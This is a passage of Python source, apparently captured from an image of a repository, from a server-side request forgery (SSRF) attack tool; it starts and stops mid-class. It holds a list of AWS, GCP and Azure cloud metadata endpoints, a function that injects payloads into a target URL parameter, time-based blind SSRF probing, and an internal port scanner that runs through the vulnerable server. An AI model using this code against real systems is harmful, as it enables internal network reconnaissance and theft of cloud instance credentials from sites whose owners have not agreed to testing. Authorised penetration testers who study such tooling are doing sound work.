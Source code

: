 ```python
        # Cloud metadata endpoints
        self.cloud_metadata = [
            'http://169.254.169.254/latest/meta-data/',  # AWS
            'http://metadata.google.internal/computeMetadata/v1/',  # GCP
            'http://169.254.169.254/metadata/instance?api-version=2021-02-01',  # Azure
        ]
    
    def test_basic_ssrf(self, payload):
        """Test basic SSRF with payload"""
        try:
            params = {self.parameter: payload}
            response = self.session.get(self.target_url, params=params, timeout=10)
            
            return {
                'payload': payload,
                'status_code': response.status_code,
                'response_time': response.elapsed.total_seconds(),
                'content_length': len(response.content),
                'response_text': response.text[:500]  # First 500 chars
            }
        except Exception as e:
            return {
                'payload': payload,
                'error': str(e)
            }
    
    def test_time_based_ssrf(self, host, port):
        """Test time-based blind SSRF"""
        payload = f"http://{host}:{port}/"
        
        try:
            start_time = time.time()
            params = {self.parameter: payload}
            response = self.session.get(self.target_url, params=params, timeout=15)
            end_time = time.time()
            
            response_time = end_time - start_time
            
            # If response time is significantly different, might indicate SSRF
            if response_time > 5:  # Slow response might indicate connection attempt
                return {
                    'host': host,
                    'port': port,
                    'service': self.internal_services.get(port, 'Unknown'),
                    'response_time': response_time,
                    'likely_vulnerable': True
                }
        except Exception as e:
            pass
        
        return None
    
    def scan_internal_ports(self, host='127.0.0.1'):
        """Scan internal ports for services"""
        print(f"[+] Scanning internal ports on {host}")
        results = []
        
        def scan_port(port):
            result = self.test_time_based_ssrf(host, port)
            if result:
                results.append(result)
                print(f"[+] Potential service found: {host}:{port} ({result['service']})")
        
```